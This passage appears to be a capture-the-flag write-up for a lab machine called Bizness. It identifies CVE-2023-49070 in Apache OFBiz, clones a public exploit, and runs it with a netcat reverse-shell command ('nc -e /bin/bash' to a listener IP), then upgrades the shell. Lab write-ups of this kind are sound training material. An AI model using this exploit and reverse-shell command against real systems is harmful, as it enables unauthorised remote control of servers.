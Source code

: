 But using the given login info doesn't seem to work. Perhaps the default admin password was changed.

![bizness.htb/webtools/control/login error](images/bizness.htb-webtools-control-login-error.png)

Using the release of `OFBiz` used we can try to find any exploits.\
What we find is **CVE-2023-49070**, which allows for remote code execution (RCE) due to the presence of the XML-RPC component, which is no longer maintained.

## Remote Code Execution

We will be using [jakabakos's exploit](https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass.git) for this vulnerability.

```bash
$ git clone https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass.git
$ cd Apache-OFBiz-Authentication-Bypass
```

We can now set up a netcat listener and execute the exploit.

```bash
$ nc -lvp 4444
```
```bash
$ python3 exploit.py --url https://bizness.htb/ --cmd 'nc -e /bin/bash 10.10.14.27 4444'
```

However, this way we get a simple shell.\
![simple shell](images/bizness-rce-connection-simple-shell.png)

We can use script as shown by [zweilosec](https://zweilosec.github.io/posts/upgrade-linux-shell/) to upgrade it to interactive shell: `script -qc /bin/bash /dev/null`\
![interactive shell](images/bizness-rce-connection-interactive-shell.png)

We can also run 
We can also run `export PS1='\[\033[01;32m\]\u@\h\[\033[00m\]:\[\033[01;34m\]\w\[\033[00m\]\$ '` to add color and make everything more readable.
